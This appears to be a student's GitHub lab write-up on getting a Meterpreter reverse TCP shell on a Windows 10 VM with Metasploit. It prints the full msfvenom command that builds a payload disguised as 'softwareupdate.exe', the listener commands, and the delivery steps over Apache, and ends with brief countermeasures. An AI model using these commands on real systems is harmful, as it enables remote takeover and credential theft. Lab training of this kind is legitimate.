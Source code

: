 # Creating a Reverse TCP Shell Using Metasploit Framework

## Objective

In this lab, I will exploit a Windows 10 system using the Metasploit Framework on Kali Linux. By doing so, I will have near-complete access to the victim machine through a reverse TCP shell. Once the shell is established, I will then demonstrate the ability to search the target machine for any information I can use to my advantage.

The steps below can be followed in order to achieve the same results. 

### Skills Learned

- Networking Concepts
- Metasploit Framework 
- Post-Exploitation Techniques
- Payload Creation

### Project Enviroment Details
- Machine A is a Kali Linux VM.
- Machine B is a Windows 10 VM.
- For testing purposes both machines are on the same network (10.0.2.0/24).
- For testing purposes antivirus will be disabled.
- For testing purposes the Windows 10 firewall is disabled.

# Steps

## Determining the Attacking Machine's IP Address
Before creating the payload, I need to make a note of my Kali system's IP address. By using the command "ifconfig", I am able to quickly view network interface information. I need to gather the IP address of the attacking machine because it is used in the command for the malicious payloads creation. 

![Kali IP Photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/02c180ec-a0d8-4b74-a74d-e2509063e0a3)

You can see above that the IP address for Machine A is "10.0.2.15".

## Weaponization/Payload Creation
Now that the IP address is identified, I need to create the executable payload that will be used to establish the reverse TCP shell. In order to do so, I can use the Metasploit's "msfvenom" command. Msfvenom is a metasploit command that allows users to create custom payloads for their targets. 

Our target machine is a Windows 10 system so I will be using Msfvenom's Windows Reverse Shell Command. The command is as follows: "msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win -f exe LHOST=10.0.2.15 LPORT=4444 -o /home/kali/softwareupdate.exe"

![Msfvenom_payload creation](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/404ad24e-66ce-47cf-b56c-1106d451fa5a)

The command is comprised of multiple components that specify exactly what executable payload I want to create. In this instance, I want msfvenom to create an  windows executable file to establish the reverse tcp shell connection.

Command Components:
- "-p windows/meterpreter/reverse_tcp" specifies that I want to create a meterpreter reverse TCP shell.
- "-a x86 --platform win" specifies the architecture and platform I want the payload generated for.
- LHOST is where I input my attacking machines IP Address.
- LPORT's purpose is to specify what port the attacking machine should listen on for when the victim machine runs the executable.
- "/home/kali/softwareupdate.exe" specifies the install location and file name.

## Establishing a listener
With the payload created and installed to my specified path "/home/kali", I need to create a listener before launching my attack. A listener is a key component in my reverse shell attack. The listener's role is to wait for the incoming connection from the target machine once its been compromised. Once the listener picks up the target machines signal, the session will be opened. 

![msfconsole photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/1270309f-345b-4cbe-babe-b3c21d5cd836)

Using the "msfconsole" command, metasploit's console will be launched. 

Once the console finishes loading, I can begin creating the listener using metasploit's generic payload handling commands. 

The following commands need to be entered in the console to create the listener:

- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.0.2.15
- set LPORT 4444
- run

![awaiting connection photo 2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/b1edd722-11ae-49c9-b932-3218328653a0)

I can easily see my listener is active once the "[*] Started reverse TCP handler on 10.0.2.15:4444" is shown. 

## Delivery
Now that the malicious payload was created and the listener is active, I need to get my payload to the target machine. For this project I will be hosting the executable file on a web server using apache. Apache will accept an HTTP request from the target machine and send the malicious executable. Ordinarily the delivery can be done through social engineering, phishing emails, and USB drop attacks. 

![starting apache2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/04bf87a0-714a-4463-9980-485b14405710)

## Installation
The target machine will navigate to the apache web server that I have created and the malicious executable will begin downloading. 

![Windows 10 social engineering 2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/339c82ec-5d76-41ed-82da-5a795b8c90f6)

## Command and Control

Once the file is ran, I am able to see the connection has been established on my Kali machine.

![Session Established](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/95bfb018-6465-4c3d-821b-80b7a4f5f085)

## Actions on Objectives
With the connection established, I now have complete control over the victim machine. I can create directories, create users, transfer files and more. I can also make the reverse tcp shell persistent so the session is never lost.

Now that I have access I want to search the victim's machine for any information I can take advantage of. Using the command line, I viewed the target machine's users, accessed the machine's desktop and noticed the target had a "Passwords.txt" file saved to their desktop. 

![reading passwords file on desktop](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/39e485a7-4236-4bea-a37e-9c75be5bdea2)

Using the "cat" command in Linux, I am able to view the "Passwords.txt" file and see the target had there bank login information saved and their companie's VPN login.

Now that I have information I can take advantage of, I am going to close the session.

![closing session](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/394932ae-5a7f-4542-a23f-1f81fc2b042d)

### Summary
Using Metasploit on a Kali Linux machine, I was able to create a malicious payload that allowed me to establish a remote tcp shell connection with my target machine. I used Msfvenom to create the payload and then used msfconsole to create a listenser on my attacking machine. I then started a web server to host my malicious file. Once my target machine sent an HTTP request to my web server, the executable file was installed to the target machine. Unknowingly, the target machine user opened the executable file and started the reverse tcp shell session. 

Now that the session was opened, I had full access to the target machine. I searched through its user's, accessed its desktop directory, and found vulnerable information. 

### Counter Measures
To avoid an attack like this, it is extremely important to have a strict firewall and an up to date antivirus/operating system.

Following the above steps, an up to date Windows 10 machine with Windows Defender will block the installation of the executable file I created. It's not possible for the user to ignore Windows Defender and proceed anyway. The antivirus immediately detects that its a malicious file and will not let the installation occur. In order to conduct this project, I needed to deactivate Windows Defender completely.  


This project was extremely fun and insightful, I hope you enjoyed. 



 


